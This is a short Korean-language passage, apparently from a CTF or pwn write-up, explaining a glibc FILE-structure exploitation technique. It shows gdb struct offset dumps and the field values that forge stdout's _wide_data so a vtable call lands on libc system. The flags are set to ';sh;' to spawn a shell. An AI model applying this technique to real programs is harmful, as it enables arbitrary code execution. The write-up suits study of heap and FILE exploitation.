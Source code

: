 ```c

gef➤  ptype /o _IO_wfile_jumps
/* offset      |    size */  type = const struct _IO_jump_t {
/*      0      |       8 */    size_t __dummy;
/*      8      |       8 */    size_t __dummy2;

  ...
  
/*    104      |       8 */    _IO_doallocate_t __doallocate;

```

`*(_wide_data+24) == 0`
`*(_wide_data+48) == 0`
의 두 가지 조건과 더불어

`*(*(_wide_data+224)+104) == libc_system`을 만족해야 한다.

```c
type = struct _IO_FILE {
/*      0      |       4 */    int _flags;
/* XXX  4-byte hole      */
/*      8      |       8 */    char *_IO_read_ptr;
/*     16      |       8 */    char *_IO_read_end;
/*     24      |       8 */    char *_IO_read_base;
/*     32      |       8 */    char *_IO_write_base;

  ...
    
/*    184      |       8 */    size_t __pad5;
/*    192      |       4 */    int _mode;
/*    196      |      20 */    char _unused2[20];

                               /* total size (bytes):  216 */
                             } *
```

`fp->_wide_data = &_IO_2_1_stdout_ - 16`와 같이 설정할 경우

`*(_wide_data+24) == fp->_IO_read_ptr == 0`
`*(_wide_data+48) == fp->_IO_write_base == 0`
`*(*(_wide_data+224)+104) == *(*(QWORD**)&fp->_unused2[12]+104//8) == &libc_system`으로 조건을 설정할 수 있다.

`*(QWORD*)fp->_unused2[12] = (QWORD)&fp->_unused2-104, *(QWORD*)&fp->_unused2= &libc_system`으로 설정했다.

<br/>
<br/>


## 결론
---
`fp->_flags == b"\x01\x01;sh;\x00\x00"`
